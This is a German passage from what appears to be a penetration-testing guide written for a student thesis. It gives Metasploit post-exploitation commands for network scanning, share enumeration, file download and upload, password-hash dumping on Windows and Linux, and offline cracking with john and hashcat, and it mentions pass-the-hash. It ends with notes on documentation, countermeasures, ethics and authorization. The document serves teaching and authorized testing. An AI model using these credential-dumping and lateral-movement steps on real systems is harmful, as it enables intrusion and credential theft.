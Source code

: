 2. **Lateral Movement:**
    - **Netzwerk-Scanning vom Zielsystem:**
        
        Code-Snippet
        
        ```
        run post/windows/gather/arp_scanner
        run post/windows/gather/enum_shares
        ```
        
    - **Ausnutzen weiterer Schwachstellen im internen Netzwerk:** Basierend auf den Ergebnissen der internen Aufklärung.
    - **Pass-the-Hash:** Wenn Hashes von Benutzerkonten erlangt wurden, können diese verwendet werden, um sich auf anderen Systemen im Netzwerk zu authentifizieren, ohne das Passwort im Klartext zu benötigen. (Benötigt oft Tools wie `psexec` oder `smbclient` in Verbindung mit den Hashes).

**Phase 7: Aktionen auf Ziele (Actions on Objectives) - Die eigentlichen Ziele verfolgen**

1. **Datensammlung:**
    
    Code-Snippet
    
    ```
    download <Pfad/zur/Datei> <Lokaler/Speicherort> # Herunterladen von Dateien
    upload <Lokale/Datei> <Pfad/auf/dem/Zielsystem> # Hochladen von Dateien
    ```
    
2. **Credential Dumping:**
    
    Code-Snippet
    
    ```
    run post/windows/gather/smart_hashdump # Extrahieren von Passwort-Hashes (Windows)
    run post/linux/gather/hashdump # Extrahieren von Passwort-Hashes (Linux)
    ```
    
3. **Passwort-Cracking (offline auf dem Kali-System):**
    
    Bash
    
    ```
    john --format=nt <gespeicherte_hashes>
    hashcat -m 1000 <gespeicherte_hashes> <Wörterliste>
    ```
    
    - `-m 1000`: NTLM-Hash-Modus für Hashcat (Windows)
4. **Weitere Aktionen:** Je nach Ziel des simulierten Angriffs (z.B. Manipulation von Daten, Störung des Betriebs).

**Zusätzliche Aspekte für deine Abschlussarbeit:**

- **Dokumentation:** Detaillierte Dokumentation jedes Schritts, der verwendeten Tools, der Befehle und der Ergebnisse.
- **Analyse:** Analyse der gefundenen Schwachstellen, ihrer potenziellen Auswirkungen und der Effektivität der eingesetzten Techniken.
- **Gegenmaßnahmen:** Diskussion möglicher Gegenmaßnahmen und Empfehlungen zur Verbesserung der Sicherheit des Zielsystems.
- **Ethische Aspekte:** Betonung der ethischen Verantwortung und der Notwendigkeit einer ausdrücklichen Genehmigung für Penetrationstests.
- **Gesetzliche Rahmenbedingungen:** Kurze Erläuterung der relevanten Gesetze und Vorschriften im Bereich Cybersicherheit.

